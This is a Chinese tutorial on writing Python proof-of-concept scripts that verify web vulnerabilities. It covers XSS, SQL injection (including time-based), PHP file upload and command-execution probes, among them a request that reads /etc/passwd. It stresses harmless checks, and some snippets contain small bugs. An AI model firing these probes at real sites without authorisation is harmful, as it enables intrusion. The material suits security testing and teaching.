






# POC编写相关

&#x20;\
why how what\
\
为什么要用POC？列举一下渗透测试过程中遇到的漏洞，什么是通用型漏洞，一般怎么测试通用型漏洞。引入burpsuite与test404两种工具\
\
如何使用POC？举例pocsuite以及上述工具中的使用方法\
\
什么是POC？根据名词解释阐述一下，然后再简述一下写脚本需要用到的python库以及方法，以及如何优化POC\


## 一，WHY

以某测试网站为例，任何示例都行，主要是POST或者GET类型，要求有输入框

以输入框为漏洞点，我们可以判定，最起码在这个网站上，这个输入点有漏洞（这种漏洞叫事件型，也就是说，在这个网站上是有漏洞的）

.png>)

那么通用型漏洞是什么样子的呢？可以看到网站使用了什么样的CMS（也就是建站系统），然后尝试搜索一下其他使用同样CMS的网站，去同样的点试试，如果尝试成功了，或者下载了对应的CMS到本地复现成功了，那就可以说，这个漏洞是通用型漏洞

> 还是上面那张图，可以说 sqli-labs靶场环境存在SQL注入漏洞&#x20;

从可视化的界面来看，我们可能只能知道，某网站的顶部的搜索框存在某个漏洞，因为当输入了一些字符串以后，页面会返回一个框，上面显示着 1 ，那么假如在知道了HTTP抓包后，就可以知道，其实是某个文件的某个参数存在漏洞，而页面中的搜索框就算到了网页的任意位置，对那个参数也没有任何影响。这个时候，返回包中的特征值，可能就是alert(1)（这就是特征）

.png>)

一般渗透测试的时候，我们会去扫描目录，去扫描文件

对应可以使用burp的Repeater或者Intruder模块，或者使用御剑这个工具

原理也是根据一个IP地址，然后根据提供的字典，不停替换后面的字符串，再根据返回的响应值判断目标是否有那个目录，文件

200:存在\
30X：存在\
403:常见于一些目录，一般情况下意味着没有权限访问，不过是存在的\
404:确定了不存在了，在访问一些文件时比较常见

200: 极端一些，文件不存在。案例有阿里云等网站，会有自定义的404页面，此时返回值依旧是200

在找到对应的文件，或者功能点的时候，就可以发送任意的模糊数据，去测试一下这个点上是否存在着其他的漏洞类型呢

比如针对 a.php?id=1

这里可以存在注入，也可能会有XSS漏洞存在。可能这个ID是从提交的文本框中来的

这个时候，也可以用burp去尝试payload，去找到可能存在的漏洞类型

那么，漏洞我找到了，我也知道这个网站使用的CMS了，我这边还找到了一些其他的网站，也是使用的这个CMS，我又应该怎么测试其他网站呢？

方法一：浏览器上，手动更换前面的URL部分，一个个尝试\
方法二：浏览器插件，也是手动，一个个尝试\
方法三：test404工具，将根目录至payload部分剪切出来，再把返回包里面的相关的特征值复制出来，点击保存。之后可以导入大量的网址信息，测试完以后，就可以在短时间内测试出哪些网站可能会存在漏洞

工具差别：如果说burp可以替换根目录以后的各种文件以及参数值来确定一个网站是否有各种各样的情况，那么test404可以根据确定一种情况后的文件去探索各种各样的网站是否存在规定好的那种情况

## 二，HOW

至于怎么使用漏洞验证脚本，根据各种框架的不同，有不同的用法。

例如单个的脚本，可以直接通过 python poc.py http://hao123.com,  python poc.py url.txt

第一个：扫描好123网站是否会存在POC中定义的漏洞内容\
第二个：逐个扫描TXT文档中的URL是否会有POC中的漏洞

示例：（参数不一定对）\
如果是使用的漏扫框架，则是： X-ray - u URL - R POC\
通过U参数，输入URL，也可以通过F来输入一个文件内容为很多URL的文件，再通过- R来确定POC

## 三，WHAT

POC，POC (Proof of Concept) 验证性测试，译为为观点提供证据，可以理解为证明漏洞存在的代码.

一般来讲，更多人会喜欢使用python语言编写，因为简单。

目前互联网上有的框架，也会使用json，yaml来写，不过会有一些局限性。也有的软件会使用java去编写。

文档以python为例：

在脚本编写的过程中，我们需要注意很多问题，才能保证脚本在运行过程中减少误报和漏报的几率。所以在编写脚本时要注意以下事项。

#### 在漏洞选取方面，有如下注意事项：

不是所有的漏洞都可以编写脚本，快速挑选正确的漏洞可以节省时间。首先遵循的原则是：除了乌云漏洞，所有的漏洞都要复现后再编写。否则可能跟实际情况不符，脚本无法正确验证漏洞。

漏洞的选择顺序：

1. 优先选取最新的CVE CNVD等带编号的漏洞，cve漏洞部分详情链接里有利用过程(来源是github，大概率存在利用过程)，从而可以复现漏洞。同时，如果通过代码审计挖掘出0day漏洞，优选写0day漏洞。
2. 其次是最新爆出的不带编号的漏洞。如freebuf 先知 安全客等网站发表的代码审计文章中爆出的漏洞。
3. 然后是非最新的带编号的漏洞或者之前公布的漏洞。如各大安全网站之前发表的漏洞文章或github上找到的漏洞。
4. 最后，如果当周以上漏洞都没有，或者都已经写过，可以挑选乌云漏洞的脚本。这些漏洞被人编写过脚本，大概率已经验证过了，可以减少误报漏报的概率（这些脚本无法验证，质量不高，但是可以提高数量，且其他厂商基于插件的漏扫大多包括乌云漏洞）。

同时，以下漏洞可以不必考虑编写脚本：

1. 需要其他环境配合的漏洞，暂不考虑（如需要再搭建另外的环境才能验证的漏洞）。
2. 不能实时真正验证的漏洞不需要考虑，如CSRF漏洞等。

#### 漏洞须知

脚本的编写需要遵循通用性、确定性、最小伤害性。通用性即要多个平台都可以验证；确定性即要确定能够验证该漏洞；最小伤害性是要对测试目标造成的影响要最小。以下根据漏洞分类来说明：

| 漏洞类型  | 通用性                                                                                                                                                    | 确定性                                                                                                                                     | 最小伤害                                                                         |
| ----- | ------------------------------------------------------------------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------- |
| SQL注入 | 要确定目标使用哪种语言，如果不确定使用哪种SQL语言，则使用多种语言都存在的函数来进行验证。而一般的CMS都会给定配套的SQL语言                                                                                      | 要能验证真的执行了SQL语句，不能仅通过加单引号等字符报错来判断存在SQL注入，可以使用函数进行验证，如MD5() ascii() pi()                                                                  | payload不要真的去查用户名密码，一方面响应不唯一没有能够检测的特征，另一方面可能会违反法律，所以只要使用md5() ascii()这些函数检测即可 |
| XSS   |                                                                                                                                                        | XSS漏洞是很容易误报的漏洞。所以在验证XSS漏洞的时候，payload不能太过简单，要包含所有符号，如 ”/>\<svg/onload=alert(‘xss’)/>，如果是能复现的漏洞，查看源代码中是否有独一无二的代码，使用and进行多次验证              | 验证XSS漏洞只需要检测弹框代码，alert(1)或document.write()都可以，不必真的引入恶意代码                     |
| 命令执行  | 不同的系统有不同的命令，所以在验证的时候，除非已经确定目标所在的系统，否则payload要选取不同系统都存在的命令。比如netstat –ano，并且要验证不同情况下的返回结果，严禁仅验证ifconfig 或whoami这种命令                                     | 命令执行漏洞要验证命令的执行结果，不能仅通过200或者500的返回值判断漏洞是否存在，且echo 1234这种很可能造成误报的命令尽量不要使用                                                                 | 编写脚本时，只需验证一些无害的命令，类似于删除文件，或者留后门的命令不要使用                                       |
| 代码执行  | 在编写脚本时，要考虑多种情况，如php版本问题，php7以后禁掉了assert函数，所以在选取payload时最好不要使用assert函数                                                                                  | 验证时，不能仅通过响应码判断漏洞是否存在，要验证代码的执行结果。同时，如果使用echo验证，应该使用echo md5()，而不是echo 1234的payload。Jsp和asp代码执行时，可使用数学计算+输出随机字符串的方式                       | 仅需验证普通的代码执行结果即可，不能使用eval等函数添加后门或shell文件。但是当echo等函数无法验证时，php中可使用phpinfo()来验证  |
| 信息泄露  |                                                                                                                                                        | 当存在泄露文件时，不能通过文件的响应值来判断是否存在信息泄露，应该验证确切的响应内容，并且，在判断响应内容时，不能仅判断username这种其他网站也可能存在的内容，应该验证独一无二的内容或多次and验证                                  |                                                                              |
| 文件上传  | 上传的文件要在多个系统下都能正常执行，在上传文件时，文件名最好不要有大小写混合。防止出现系统处理文件名进行大小写统一转换的情况                                                                                        | 在上传文件时，要上传对应语言的文件，不能只上传本来就不限制的文件（如txt，jpg），同时，在上传文件后，要再次确认上传文件的响应内容是否正确。一般情况下，php可上传echo md5()的文件内容，jsp和asp可上传<%=23333\*9999%>这种数学运算的内容 | 不能上传木马文件到服务器中，当上传php文件时，最好加上删除自身文件的代码，这样在访问时即可消除痕迹，防止被其他人利用                  |
| 目录遍历  | payload首先选取组件自带的文件，如joomla的configuration.php文件，wordpress的wp-config.php文件，并通过响应内容中的独一无二的变量进行判断。当无法读取自身文件时，可通过读取系统文件判断，但要注意同一脚本中要同时检测window下和linux下的系统文件 |                                                                                                                                         | 有一些情况下，在读取文件后，会删除该文件。**所以复现漏洞时要注意该情况，如果存在删除操作，那么此漏洞不能编写成脚本**                 |

#### 脚本分类

编写脚本主要是编写类似于payload脚本下的单个脚本。&#x20;

#### 开始写吧

首先，在编写脚本的时候，尤其是编写web应用漏洞时，需要用到的库就是[`requests`](https://docs.python-requests.org/zh\_CN/latest/)，用它来收包与发包，最为方便快捷

### **我不会python怎么办？**（当然是学啊）

如果会使用burpsuite，那么编写脚本的难度就会降低许多，以单次发包为例，下面是示例： 图中有用的信息有什么呢？

1. 请求：请求方法，请求路径，请求行
2. 响应：响应头，响应行，响应体，响应所用时间

### XSS与字段意义



从图中可以看出，这个漏洞是XSS，且是使用GET方法发送了一个包，这个包**最简化**后，我放在下面：

```bash
GET /level1.php?name=%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1
Host: 123.123.123.123
```

此时，python代码中可以这样表示：

```python
import requests
target = ""
url = target.rstrip("/") + "/level1.php?name=%3Cscript%3Ealert(1)%3C/script%3E"
req = requests.get(url，timeout=10)
# 也可以这样：
method = "GET"
req = requests.request(method, url，timeout=10)
```

如上代码，之所以需要加 `.rstrip("/")` ，是因为若输入 URL 中若结尾有 `/` ，即若输入 `http://a.com/` 而不是 `http://a.com` 时，部分矫情网站在访问过程中，脚本便会请求出错

<figure><figcaption></figcaption></figure>

**burp图中有HOST，那怎么代码中没有呢？**

原因：python会自带host部分，所以不需要再次定义HOST，此时headers中的user-agent为`python/requests-1.7`

当然了，有的页面如果不是正常浏览器的样子，是拒绝访问的，所以，可以设置headers中的UA部分为：

```
headers = {
    "User-Agent": "Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
}
```

那么返回包呢，我能从哪里知道有XSS存在？

```
HTTP/1.1 200 OK
Date: Fri, 28 May 2021 07:38:15 GMT
Server: Apache
Upgrade: h2
Connection: Upgrade, close
Vary: Accept-Encoding
Content-Type: text/html
Content-Length: 497
​
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level2.php?keyword=test"; 
}
</script>
<title>欢迎来到level1</title>
</head>
<body>
<h1 align=center>欢迎来到level1</h1>
<h2 align=center>欢迎用户<script>alert(1)</script></h2><center></center>
<h3 align=center>payload的长度:25</h3></body>
</html>
```

因为payload是 `<script>alert(1)</script>`，那么如果只检测**1**行不行？

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
```

在上面那段代码中，`1`这个数字出现了不止一次，如果我们访问10086网站呢？上面的1只会更多

那么加上alert，应该会好很多吧？？？

```
//alert('len2:'+chAry.length);
//alert(1)
```

如上，在一些JS的注释中，如果只检测这些的话，很容易存在误报，只有将完整的payload都匹配上才可，这时的思路是：响应体中存在`<script>alert(1)</script>`，也就是连着标签一起检测

为了脚本的准确性，其实还应该在三方面考虑脚本的写法，例如根据响应头，响应行，响应体三方面来判断，那么此时的脚本示例就是：

```python
import requests
headers = {
	"User-Agent": "Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
}
url = target.strip("/") + "/level1.php?name=%3Cscript%3Ealert(1)%3C/script%3E"
req = requests.get(url, headers=headers, timeout=10)
if req.status_code == 200 and "<script>alert(1)</script>" in req.text:
	print("漏洞存在")
```

那么再看看长亭的xray脚本，可以发现他们有在使用随机数，使用随机数的优势在于，我们可以通过这种手段，适当的减少误报

使用随机数的话，又涉及到了两个其他的库:`random`和`hashlib`

使用上述两个库，优化一下脚本：

```python
import requests,random
yuju = str(random.randint(0, 999999))
target = ""
url = target.strip("/") + "/level1.php?name=%3Cscript%3Ealert({yuju})%3C/script%3E"
req = requests.get(url)
if req.status_code == 200 and "<script>alert({})</script>".format(yuju) in req.text:
    print("漏洞存在")
```

在上述脚本中，假设随机数为9999，那么脚本发送了`name=%3Cscript%3Ealert(9999)%3C/script%3E`，大意即为发送一个随机数到服务器，如果响应码为200，且响应体中也有`<script>alert(9999)</script>`存在，那么漏洞存在

当浏览器在访问一些页面时，可能会遇到如图情况：&#x20;



&#x20;其实在代码中，也会出现类似的错误，原因就是会有证书校验。那么如果想要脚本可以直接跳过这一步，又应该怎么做呢？

在引用了`requests`库之后，添加两行代码，并在发包的代码中，添加`verify=False`，体现在整体中，就是这样的：

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
​
req = requests.get(url,headers=headers, timeout=10, verify=False)
```

如果是**POST**呢？

```python
import requests
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
url=......
headers={"User-Agent": "Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50","Content-Type": "application/x-www-form-urlencoded",}
yuju = ....
data = "name=<script>alert({})</script>".format(yuju)
req = requests.post(url,headers=headers, data=data, timeout=10, verify=False)
```

如上，在POST数据的时候，通常情况下，Content-Type的值为application/x-www-form-urlencoded

那么如果漏洞是**后台**的呢？此时需要引用到**cookie**值，也就是类似于：`Cookie: PHPSESSID=123456789`

在编写脚本时，可以将cookie处留空，方便在后续测试脚本的时候进行测试，或通过单独赋值的形式，通过外部传参传入cookie：

```python
import requests
import sys

TARGET = sys.argv[0]
COOKIE = sys.argv[1]

headers={"User-Agent": "Mozilla/5.0","Cookie": COOKIE}

# poc.py  http://123.123.123.123  PHPSESSID=123456
```

&#x20;那么，如果是HTTP认证呢？？又应该如何去方便的验证一款使用HTTP验证的产品呢？

&#x20;众所周知，通常情况下，常见的HTTP认证的格式为：`Authorization: Basic YWRtaW46YWRtaW4=` 的类似格式，而在Basic后面跟着的，是一串Base64编码后的字符串，解开后，为admin:admin，也就是说，其用户名与密码都是admin。在脚本中又该如何体现呢？

```python
import requests
import base64
import sys

aaa = "admin admin" # aaa = "admin:admin"
if ":" in aaa or " " in aaa:
    ddd = base64.b64encode(aaa.encode('utf-8'))
elif ":" not in aaa:
    ddd = aaa

print ddd

headers={"User-Agent": "Mozilla/5.0","Authorization": "Basic " + ddd}
```

### SQL注入

如果比较SQL注入漏洞，那应该会知道，并不是每台电脑的用户都是`root@localhost`，也并不是每台主机在用的数据库都是`qishicms`,`information_schema`，那么针对查询的情况，我们可以通过查询一个随机数的MD5值，去判断一个漏洞是否有注入，这样会方便许多

此时的SQL语句就可以是：

```
>  select md5(1);
​
>  c4ca4238a0b923820dcc509a6f75849b
```

加上随机数，那么对应到脚本上，就是这样的：

```python
import requests
import random
import hashlib
yuju = str(random.randint(0, 999999))
# mdfive,定义了yuju的MD5值，可以在SQL注入中直接使用
mdfive = hashlib.md5(yuju).hexdigest()
target = ""
url = target + "/level1.php?name=1 union select MD5({})".format(yuju)
req = requests.get(url)
if req.status_code == 200 and mdfive in req.text:
    print("漏洞存在")
```

**注意：若频繁使用md5(1),则可能发生误报，示例如下图：**



针对**SqlServer**，如何获取MD5值呢？？

| 涉及函数      | 描述                                                                       | 返回值                                 |
| --------- | ------------------------------------------------------------------------ | ----------------------------------- |
| HashBytes | <p>HashBytes ('加密方式', '待加密的值')<br>加密方式= MD2 | MD4 | MD5 | SHA | SHA1</p> | 返回值类型：varbinary(maximum 8000 bytes) |
|           | HashBytes('MD5','123456')                                                | 0xE10ADC3949BA59ABBE56E057F20F883E  |

HashBytes生成的结果为：0xE10ADC3949BA59ABBE56E057F20F883E，16进制的数值，去掉“0x”转换为小写值就完全与MD5值吻合了，在此需要用另一个函数（sys.fn\_sqlvarbasetostr）把varbinary的值转换为varchar类型的，完整sql如下：

```
select substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123456')),3,32)
```

此时，结果为：`e10adc3949ba59abbe56e057f20f883e`

当我们复现一个延时注入的时候，通常情况下，如果使用着`sleep(2)`的语句，那么返回时间会大于等于2秒，那么如果是国外的网站呢？

一般来讲，国外的网站在不挂代理的情况下，响应速度通常会比较慢，如果遇到的一个站点刚好没有注入漏洞，又响应时间较长，如果只判断响应时间，那么会在一定概率上造成误报，示例如下：

```python
if 响应时间 >= 2:
    print "漏洞存在"
```

假设payload使得个别网站响应码为404,500时，上述的条件完全不足以证明有漏洞存在

所以当脚本要检测漏洞是否存在时，示例如下：

```python
# 第一次发包代码，已省略,假设为req,sleep(2)
if 响应时间 >= 2 and req.status_code == 200:
    # 第二次发包代码，已省略,假设为req1,sleep(4)
    if 响应时间 >= 4 and req1.status_code == 200:
        print "漏洞存在"
```

也就是说，在检测返回包时间时，最好将响应码，响应头等信息也加入判断条件中，才能更精确的匹配到漏洞存在的网站

那么响应时间的设定应该怎么设置呢？

在网上，会有人告诉你，响应时间是`req.elapsed.total_seconds()`，实际上，这是获取了接口的响应时间，与发包并没与太大的关系

所以，应该这样：示例中`sleep(2)`，最好多次验证

```python
now = time.time()
req = requests.get(XXXXXXXXXXXXXXXXXXXXXXXXXXXX)
send_time = time.time() - now
​
if 4 >= send_time >= 2 and req.status_code == 200:
     # 设置sleep5
     if 7 >= send_time >= 5 and req.status_code == 200:
        print "success"
```

当然了，若条件允许，最好将页面的其他特征值也添加进去，例如响应行信息，响应体信息，也就是页面信息

### 文件上传

在文件上传时，一般的数据包是这样的：



最简化后，请求部分中，最重要的只有Referer,host,user-agent,Content-Type部分，一般人会通过在脚本中都写上那些字段，并在请求体中添加`-----boundry=XXXXXXX`等来达成文件上传的目的，但这样无疑会使脚本显得不美观，类似这样：

```python
header = {
    'Host': target_ip,
    'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'de,en-US;q=0.7,en;q=0.3',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'multipart/form-data; boundary=---------------------------5170699732428994785525662060',
    'Connection': 'close',
    'Referer': 'http://' + target_ip + ':' + target_port + pluckcmspath + '/admin.php?action=files',
    'Cookie': cookie,
    'Upgrade-Insecure-Requests': '1'
}
data = "-----------------------------5170699732428994785525662060\r\nContent-Disposition: form-data; name=\"filefile\"; filename=\"shell.phar\"\r\nContent-Type: application/octet-stream\r\n\r\n<?php phpinfo();?>\n\r\n-----------------------------5170699732428994785525662060\r\nContent-Disposition: form-data; name=\"submit\"\r\n\r\nUpload\r\n-----------------------------5170699732428994785525662060--\r\n"
```

而在一个较为成熟的脚本中，只需要注意其中的Content-Type,name,filename,以及文件内容即可，因为上传文件可以使用这样的代码来实现：

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
url = ....
headers = {"User-Agent": "Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"}
file = {
            'upload_file': ('1.php', '<?php phpinfo();?>', 'image/jpeg'),
            'submit': (None, 'submit')
        }
req = requests.post(url, headers=headers, files=file, timeout=10, verify=False)
```

上述代码，可完全使得代码量变小，通过定义文件，也使代码更美观

**小技巧**： 如果要上传文件的服务器上已经有了类似于shell.php的文件，那么再次上传shell.php可能会上传失败，此时也可以使用随机数的方法，将文件名设置为`随机数.php`，或者`时间戳.php`并且文件内容中可以包含随机数的MD5值与`phpinfo()`，在访问时可以减少误报

如果是上传**压缩文件**呢？？？（涉及到`zipfile`库）

示例代码如下：

```python
import zipfile,random,randint
yuju = str(random.randint(0, 999999))
# 新建一个.zip文件
def create_zip():
    myzip = zipfile.ZipFile('{}.zip'.format(yuju),mode='a',compression=zipfile.ZIP_DEFLATED)
    myzip.writestr("shell.php", "<?php echo md5({});?>".format(yuju))

class Pocscan():
    def __init__...
    def verify(self):
        create_zip()
        # 给 upzip 赋值，值为ZIP文件的二进制数据
        upzip = open("{}.zip".format(yuju), "rb")
        files = {
            'file': ('{}.zip'.format(yuju), upzip, 'application/x-zip-compressed'),
            }
        req = requests.post(url, files=files, headers=headers, timeout=10, verify=False)
        # 在上传文件后，关闭ZIP文件，便于后续删除文件
        upzip.close()
        # 使用os库，并删除创建的压缩文件
        os.remove("./{}.zip".format(yuju))
```

####

### 命令执行

命令执行分为回显与不回显两种，对于回显的命令执行，可使用Windows与Unix通用的命令去检测，类似netstat，或者别的，也可分别发送请求，也就是发送多次请求去检测，例如：

```
GET /download.php?cmd=cat%20/etc/passwd HHTP/1.1
​
RESPONSE:
HTTP 200 OK
Content-Type:text/html
// Content-Type:text/josn
// Set-Cookie: PHPSESSID=123456789xxxxxx
​
// 情况一：
<textarea>root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin...</textarea>
// 情况二：
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin...
<!DOCTYPE html>
<html>......
// 情况三：
